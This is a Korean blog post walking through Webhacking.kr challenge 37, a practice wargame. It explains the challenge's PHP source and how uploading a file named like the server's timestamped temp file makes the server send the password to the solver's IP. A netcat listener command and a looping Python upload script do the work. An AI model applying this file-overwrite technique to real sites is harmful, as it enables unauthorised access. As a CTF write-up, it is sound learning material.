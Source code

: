 ```yaml
---
layout: post
title: "Webhacking.kr 37번 문제"
description: ""
categories : development
sub_categories : ""
date: 2017-07-14
tags: []
comments: true
share: true
---
```


![](/assets/images/posts/779/2775FB33596868D2391301.PNG)

  

37번은 250 스코어의 문제입니다.

  

문제를 보면, 알수 없는 파일 리스트와 7777 포트가 열려있는데 루프백 아이피 그리고 폼 버튼이 보입니다.

  

하단에 위치한 폼 버튼의 임의로 이미지 사진(20170213_230929.png)을 업로드 했습니다.

업로드 이 후, 이미지가 정상적으로 리스트에 나오는 것을 확인했습니다.

  

    ....numbertmp-1499973060tmp-1499996289tmp-1499996421tmp-1499996897tmp-1499996923127.0.0.1:7777

  

현재까지의 시점을 보았을 때, 이로는 정답의 실마리를 찾지 못하여

소스코드를 열어보니 `index.phps` 가 숨어있었습니다.

  

문제의 힌트를 위해 해당 파일의 경로로 이동합니다.

  

이동했다면 아래와 같이 문제를 구성하는 코드가 보일 것 입니다.

코드의 대해서 잠깐 얘기해보겠습니다.

  

로컬 시간을 `time` 변수에 대입하고 "tmp" 디렉토리에 "tmp-".$time 이라는 파일의 루프백 아이피를 넣어 생성합니다.

"tmp/.number" 파일은 파일의 갯수를 측정하는 파일로써 find 함수로 한줄 씩 읽으며 배열로 반환하고

그 수를 증가시킨 값을 다시 본 파일의 적습니다.

  

tmp 파일이 30개를 이상이면 unlink 하는 부분 또한 있는데 별로 중요한 내용은 아니니 설명하지 않겠습니다.

  

중요한 부분은 다음에 나오는 파일명 중 특정 문자열을 공백으로 치환하는 부분입니다.

치환의 대상자는 아래와 같다.

  

  * <
  * >
  * ,
  * .
  * space 

  

tmp 디렉토리 이하에서 업로드 된 파일명을 쓰기 모드로 열고 클라이언트의 공인 ip를 작성합니다.

  

이후 소켓 함수를 이용하여 ck 변수에 저장된 ip 값의 7777 포트로 연결합니다.

연결 뒤에는 request 변수에 저당된 값을 발신합니다.

  

이 것이 내가 수신 받아야할 정답 값인 것 입니다.

  

문제에서 요청 시 7777포트로 요청 아이피에 정답을 발신합니다.

정답을 수신하기 위해 nc를 사용하여 7777 포트를 열어줍니다.

  

    nc - nvl -p 7777

  

이 후 공유기 사용자의 경우 포트 포워드 설정해주시면됩니다.

  

  

매 요청 시 "tmp-{구분자 = 시간}" 값이 동적으로 변하기에 이를 저는 loop 를 사용하여 해결했습니다.

소스는 아래와 같습니다.

  

  

    import requestsurl = 'http://webhacking.kr/challenge/web/web-18/index.php'files = {	'upfile' : ('tmp-1500000845',open('tmp-1500000845','rb'),'multipart/form-data')}cookies = {	'PHPSESSID': '세션 키 값'}for i in xrange(60):	response=requests.post(url, files = files, cookies = cookies)	print response.text

  

    $pw="???";$time=time();$f=fopen("tmp/tmp-$time","w");fwrite($f,"127.0.0.1");fclose($f);$fck=@file("tmp/.number");if($fck) $fck=$fck[0];if(!$fck) $fck=0;$fck++;$f2=fopen("tmp/.number","w");fwrite($f2,$fck);fclose($f2);$file_nm=$HTTP_POST_FILES[upfile][name];$file_nm=str_replace("","",$file_nm);$file_nm=str_replace(".","",$file_nm);$file_nm=str_replace(" ","",$file_nm);if($file_nm){$f=@fopen("tmp/$file_nm","w");@fwrite($f,$_SERVER[REMOTE_ADDR]);@fclose($f);}echo("");$kk=scandir("tmp");for($i=0;$i");$ck=file("tmp/tmp-$time");$ck=$ck[0];$request="GET /$pw HTTP/1.0\r\n";$request.="Host: $ck\r\n";$request.="\r\n";$socket=@fsockopen($ck,7777,$errstr,$errno,1);@fputs($socket,$request);@fclose($socket);echo("$ck:7777");if($fck>=30){$kk=scandir("tmp");for($i=0;$i<=count($kk);$i++){@unlink("tmp/$kk[$i]");}}

  
  
클리어 !

  

